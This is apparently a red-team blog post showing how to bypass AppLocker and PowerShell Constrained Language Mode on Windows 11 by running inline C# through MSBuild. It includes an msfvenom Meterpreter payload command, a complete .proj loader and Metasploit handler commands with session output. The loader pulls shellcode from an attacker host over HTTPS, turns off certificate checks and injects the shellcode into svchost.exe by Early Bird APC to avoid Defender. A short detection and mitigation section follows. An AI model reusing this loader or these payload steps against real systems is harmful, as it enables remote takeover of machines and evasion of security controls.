So there you are. You have code execution on a Windows machine, you're feeling pretty good about yourself, and then reality punches you in the face: AppLocker is blocking everything, PowerShell is running in Constrained Language Mode, and Defender is sitting there looking smug. Classic.

The good news? Microsoft was kind enough to ship a built-in build tool with every version of Windows that has .NET installed. And that tool `MSBuild.exe` does not care about your AppLocker rules.

This post walks through how to abuse it to get a Meterpreter shell on a fully locked-down Windows 11 machine.

---

## What Is MSBuild and Why Should You Care

MSBuild is Microsoft's build system for .NET. It reads XML project files (`.csproj`, `.proj`, etc.) and compiles code. It lives here:

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe
```

The important thing is that MSBuild can execute inline C# tasks at build time. Not "after building." During the build itself. That means you can embed arbitrary C# code inside a `.proj` file, run it through MSBuild, and Windows will happily compile and execute it: signed binary, trusted path, no questions asked.

This makes MSBuild a textbook Living off the Land Binary, or LoLBin. It is signed by Microsoft, it lives under `C:\Windows`, and AppLocker default rules explicitly allow execution from that path. You are not bypassing AppLocker. You are using a tool that AppLocker trusts by design.

---

## Lab Setup

The target is a Windows 11 26H2 machine, build 26300.9457, with the following controls active:



- AppLocker enforced (Exe, Script, Msi, and Appx rule collections all enabled)

- PowerShell in Constrained Language Mode

- Windows Defender running

- AppIDSvc service running (required for AppLocker enforcement)

The attacker machine at `192.168.133.133`.

---

## Verifying AppLocker Is Actually Enforced

Before doing anything, confirm AppLocker is running and enforcing rules. There is no point trying to bypass something that is not there.

```powershell
Get-Service AppIDSvc | fl Status,StartType
```

If `Status` is `Running`, AppLocker is active. If it is `Stopped`, policies exist but nothing is being enforced which honestly happens more often than you'd think in real environments.

To see the actual ruleset:

```powershell
Get-AppLockerPolicy -Effective -Xml
```

Or a more readable version:



```powershell
(Get-AppLockerPolicy -Effective -Xml) -split '><' | Select-String 'RuleCollection|EnforcementMode|Action="Deny"|Path='
```

In this lab, the policy denies execution from the usual user-writeable locations: `%USERPROFILE%\Downloads`, `%USERPROFILE%\Desktop`, `%WINDIR%\Temp`, `%PUBLIC%`, and `%USERPROFILE%\AppData\Local\Temp`. Basically everywhere a normal attacker would drop a binary.

To confirm it is actually blocking things, try running PsExec from Downloads:



```cmd
C:\Users\user\Downloads\PSTools\PsExec.exe
La directiva de grupo bloquea a este programa.
```

*Group Policy blocks this program.* The lab machine runs a Spanish locale, so Windows
messages come back in Spanish.

Great. It works. We are properly locked out.

---

## Checking Constrained Language Mode



```powershell
$ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```

CLM restricts what PowerShell can do. COM objects, Add-Type, .NET types, reflection all gone or heavily limited. It gets set automatically when AppLocker is enforcing script rules and the script is not explicitly allowed by a publisher or path rule.

Note that CLM affects PowerShell. MSBuild runs completely outside of PowerShell. This is the whole point MSBuild does not know CLM exists, and CLM does not know MSBuild is running C#. They are on completely separate execution paths.

---

## Generating the Payload

On our attacker machine, generate a raw shellcode binary with Meterpreter:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.133.133 LPORT=8085 EXITFUNC=thread -f raw -o payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 902 bytes
Saved as: payload.bin
```



Note the use of `reverse_https` instead of `reverse_tcp`. TLS traffic is less likely to be
blocked and gives a content-inspecting device nothing to match on. The `EXITFUNC=thread`
flag means if the shellcode thread dies, it will not take down the whole process with it.

Then serve the payload over HTTPS with `updog`, which generates a self-signed certificate
for you:

```bash
updog --ssl
[+] Serving /home/ika on 0.0.0.0:9090...
 * Running on https://127.0.0.1:9090
 * Running on https://192.168.133.133:9090
```



---

## The .proj File

This is the interesting part. MSBuild supports something called `CodeTaskFactory`, which lets you define a custom build task using inline C# code. The task runs when MSBuild processes the project file.

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
      <Target Name="Build">
        <W />
      </Target>

      <UsingTask TaskName="W"
                 TaskFactory="CodeTaskFactory"
                 AssemblyFile="$(MSBuildToolsPath)\Microsoft.Build.Tasks.v4.0.dll">
        <ParameterGroup />
        <Task>
          <Reference Include="System" />
          <Using Namespace="System" />
          <Code Type="Class" Language="cs">
            <![CDATA[
            using System;
            using System.IO;
            using System.Net;
            using System.Runtime.InteropServices;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class W : Microsoft.Build.Utilities.Task, ITask
            {
                [DllImport("kernel32", SetLastError=true)]
                static extern IntPtr VirtualAllocEx(IntPtr h, IntPtr a, IntPtr sz, uint at, uint pt);
                [DllImport("kernel32", SetLastError=true)]
                static extern bool WriteProcessMemory(IntPtr h, IntPtr a, byte[] b, IntPtr sz, out IntPtr wr);
                [DllImport("kernel32", SetLastError=true)]
                static extern bool VirtualProtectEx(IntPtr h, IntPtr a, IntPtr sz, uint np, out uint old);
                [DllImport("kernel32", SetLastError=true)]
                static extern uint QueueUserAPC(IntPtr apc, IntPtr th, IntPtr data);
                [DllImport("kernel32", SetLastError=true)]
                static extern uint ResumeThread(IntPtr th);
                [DllImport("kernel32", SetLastError=true)]
                static extern bool CloseHandle(IntPtr h);
                [DllImport("kernel32", CharSet=CharSet.Unicode, SetLastError=true)]
                static extern bool CreateProcess(string app, string cmd, IntPtr pa, IntPtr ta,
                                                 bool inh, uint flags, IntPtr env, string cwd,
                                                 ref STARTUPINFO si, out PROCESS_INFORMATION pi);

                [StructLayout(LayoutKind.Sequential, CharSet=CharSet.Unicode)]
                public struct STARTUPINFO {
                    public int cb; public string r, d, t;
                    public int x, y, xs, ys, xc, yc, fill, flags;
                    public short show, cbr; public IntPtr r2, in_, out_, err;
                }
                [StructLayout(LayoutKind.Sequential)]
                public struct PROCESS_INFORMATION { public IntPtr hProcess, hThread; public int pid, tid; }

                const uint CREATE_SUSPENDED = 0x4;
                const uint COMMIT = 0x1000, RESERVE = 0x2000, PAGE_RW = 0x04, PAGE_RX = 0x20;

                static readonly string URL = "https://192.168.133.133:9090/payload.bin";
                static readonly byte[] K = { 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
                                             0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 };

                public override bool Execute()
                {
                    ServicePointManager.ServerCertificateValidationCallback =
                        (s, cert, chain, errors) => true;
                    try {
                        ServicePointManager.SecurityProtocol =
                            (SecurityProtocolType)(3072 | 768 | 192);   // Tls12 | Tls11 | Tls
                    } catch { }

                    byte[] sc;
                    try
                    {
                        var req = (HttpWebRequest)WebRequest.Create(URL);
                        req.UserAgent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)";
                        req.Proxy = null;
                        req.Timeout = 20000;
                        req.ReadWriteTimeout = 20000;
                        req.KeepAlive = false;

                        using (var r  = req.GetResponse())
                        using (var s  = r.GetResponseStream())
                        using (var ms = new MemoryStream())
                        { s.CopyTo(ms); sc = ms.ToArray(); }
                    }
                    catch (Exception e) { Log.LogError("[net] " + e.Message); return false; }

                    for (int i = 0; i < sc.Length; i++) sc[i] ^= K[i % K.Length];

                    var si = new STARTUPINFO(); si.cb = Marshal.SizeOf(si);
                    PROCESS_INFORMATION pi;
                    if (!CreateProcess(@"C:\Windows\System32\svchost.exe", null,
                                       IntPtr.Zero, IntPtr.Zero, false,
                                       CREATE_SUSPENDED, IntPtr.Zero, null, ref si, out pi))
                    { Log.LogError("[cp] " + Marshal.GetLastWin32Error()); return false; }

                    IntPtr m = VirtualAllocEx(pi.hProcess, IntPtr.Zero, (IntPtr)sc.Length,
                                              COMMIT | RESERVE, PAGE_RW);
                    if (m == IntPtr.Zero) { Log.LogError("[alloc]"); CloseHandle(pi.hThread); CloseHandle(pi.hProcess); return false; }

                    IntPtr wr;
                    if (!WriteProcessMemory(pi.hProcess, m, sc, (IntPtr)sc.Length, out wr))
                    { Log.LogError("[wpm] " + Marshal.GetLastWin32Error()); CloseHandle(pi.hThread); CloseHandle(pi.hProcess); return false; }
                    Array.Clear(sc, 0, sc.Length);

                    uint o;
                    VirtualProtectEx(pi.hProcess, m, (IntPtr)sc.Length, PAGE_RX, out o);

                    QueueUserAPC(m, pi.hThread, IntPtr.Zero);
                    ResumeThread(pi.hThread);

                    CloseHandle(pi.hThread);
                    CloseHandle(pi.hProcess);
                    return true;
                }
            }
            ]]>
          </Code>
        </Task>
      </UsingTask>
    </Project>
```

> The payload is pulled over **HTTPS** from `192.168.133.133:9090`, where `updog` is serving
> it, while the Meterpreter handler listens on `192.168.133.133:8085`. Same host, two ports,
> and a plain `http.server` would not answer this URL at all.

Here is what it actually does, step by step:

**Fetches the shellcode over HTTPS.** Nothing is embedded in the project file: the
shellcode is pulled from the delivery host at build time, so the file stays clean and
static analysis has nothing to read. TLS also keeps the payload from crossing the wire in
plaintext.

**Repairs the TLS handshake .NET 4.0 gets wrong.** Two things break an HTTPS fetch from a
`CodeTaskFactory` task. The framework defaults to `Ssl3 | Tls`, and current servers reject
both, so the request dies before it starts:
`(SecurityProtocolType)(3072 | 768 | 192)` is `Tls12 | Tls11 | Tls`, which turns them back
on. The `try` around it is not paranoia: older runtimes do not define `Tls12` and throw on
the cast. The second problem is the certificate: `updog --ssl` serves a self-signed one,
so the default validator refuses it with *"Could not establish trust relationship"*.
Overriding `ServerCertificateValidationCallback` to return `true` accepts any certificate.
Exactly what you want against your own listener, exactly what you never ship.

**Stays off the proxy and fails fast.** `req.Proxy = null` keeps the request away from
WinHTTP/WPAD, so a corporate proxy cannot log or block it. The 20 second timeouts mean a
dead delivery host fails the build instead of hanging it.

**Cleans up on failure.** Every error path closes the process and thread handles and pushes
the Win32 error through `Log.LogError`, so a failed run tells you what broke instead of
just returning `false`.

**XOR decryption in memory.** The shellcode gets decrypted in RAM using a key (`K`). In this example the key is all zeroes so it is effectively a no-op, but swapping it for a real key means the payload travels encrypted over the wire. Nothing gets written to disk.

**Process injection via Early Bird APC.** A `svchost.exe` process is created in suspended state. The shellcode is written into its memory space, marked executable, and queued as an APC (Asynchronous Procedure Call). When the thread resumes, the APC runs before the thread's normal entry point. The injection happens before most AV hooks have a chance to intercept it.

**The file has no extension.** The project file is saved on the Desktop as `test`, with no
extension. Windows does not care; MSBuild just needs a path. Neither does AppLocker: the
only decision it made was whether `MSBuild.exe` itself was allowed to start, and that
binary is already trusted. The project file is just data handed to a process that has
permission to run. Being unremarkable does mean it will not trip signature-based detection
looking for `.csproj` or `.proj` files.

---

## Setting Up the Listener

```console
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST 192.168.133.133
msf6 exploit(multi/handler) > set LPORT 8085
msf6 exploit(multi/handler) > run
[*] Started HTTPS reverse handler on https://192.168.133.133:8085/
```



---

## Running MSBuild

On the target, from PowerShell or cmd (CLM does not affect this):

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe .\Desktop\test
Microsoft (R) Build Engine, versión 4.8.9221.0
[Microsoft .NET Framework, versión 4.0.30319.42000]
Copyright (C) Microsoft Corporation. Todos los derechos reservados.

Compilación iniciada a las 30/10/2026 22:39:55.

Compilación correcta.
    0 Advertencia(s)
    0 Errores

Tiempo transcurrido 00:00:01.98
```



The output is in Spanish because of the `es_ES` locale: `Compilación correcta` means
*build succeeded* and `Advertencia` is a warning.

A 1.98 second build time. The shellcode fetched, decrypted, and injected in under two
seconds. The build system reports success and exits cleanly.

Back on our attacker machine:



```text
[*] Meterpreter session 1 opened (192.168.133.133:8085 -> 192.168.133.131:51368) at 2026-10-30 23:13:04 +0100

meterpreter > sysinfo
Computer        : DESKTOP-GDJDBQQ
OS              : Windows 11 24H2+ (10.0 Build 26300).
Architecture    : x64
System Language : es_ES
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

There it is.

Note that Meterpreter labels build 26300 as 24H2+, while winver reports 26H2.

---

## Inside the Process

The session landed in `svchost.exe` (PID 7812), and its memory explains why nothing fired. Two 4 MB private regions are marked `RWX`, each with only 256 kB resident, and the dump opens with `MZ` followed by *This program cannot be run in DOS mode*: a full PE image living in memory, never on disk.



Windows Security, open at the same time, reports no current threats. There is nothing for it to look at: the payload is a memory region inside a signed Microsoft host, not a file on the filesystem.



---

## Why This Works

AppLocker blocks execution based on path, publisher signature, and hash. MSBuild.exe is signed by Microsoft and lives under `C:\Windows`, which every default AppLocker ruleset allows. The inline C# is compiled in memory at runtime, so there is no executable written to disk and no secondary binary to block.

CLM is set by AppLocker when PowerShell scripts are restricted. MSBuild is not PowerShell. The C# code runs inside the .NET runtime, completely outside of PowerShell's execution context. CLM simply does not apply.

Defender sees a trusted Microsoft binary doing a build task. The shellcode arrives over HTTPS, decrypts in RAM, and injects into an already-running process. There is nothing written to disk and no obviously malicious binary for signatures to match against. Early Bird APC injection is well-documented as an evasion technique specifically because it executes before many userland hooks initialize.

---

## When It Does Get Caught

In memory it survives. On disk it does not. Saving that same region out of System Informer to the Desktop is all it takes:



The file lands as `svchost.exe_0x1bb83ee0000` and Defender picks it up straight away as `HackTool:Win32/Meterpreter.A!dll`, high severity.

Nothing about the technique changed between that check and this one. The payload is the same; the difference is that one copy lives in a memory region and the other is a file with a signature on it. That is the whole trick, and it is also its limit.

---

## Detection and Mitigation

If you are on the blue side, here is what to look for:

MSBuild running from unexpected paths or under unusual parent processes (PowerShell, cmd, WSH) is a strong signal. A legitimate developer machine might run MSBuild regularly; a standard workstation should not. Correlate with network connections: MSBuild reaching out over HTTP or HTTPS to an internal or external host is not normal build behavior.

Log all AppLocker events, specifically event IDs 8003 and 8004 in the `Microsoft-Windows-AppLocker` channel. If you see allowed events for MSBuild followed shortly by unusual process creation (especially svchost spawned with `CREATE_SUSPENDED`), that is worth investigating.

For mitigation, Microsoft's recommended approach is to use Windows Defender Application Control (WDAC) instead of AppLocker, or alongside it. WDAC can restrict MSBuild more granularly and does not have the same trusted-path blind spots. Alternatively, a custom AppLocker deny rule on MSBuild itself will stop this technique though it will also break any legitimate build pipelines running on that machine.

---

## Final Thoughts

The technique described here is publicly documented and has been known for years. It appears in multiple red team frameworks, LOLBAS lists, and MITRE ATT&CK under T1127.001. The reason it still works in 2026 is the same reason most things still work: default configurations are not designed for security, they are designed for compatibility.

AppLocker is better than nothing. It stops most commodity malware and script kiddies. But the moment an attacker knows the environment and can spend five minutes on it, the trusted-binary angle opens up and the game changes.

Patch your detection gaps before someone else finds them for you.

---

*This post is written for educational purposes and security research. Everything shown here was performed in an isolated lab environment.*
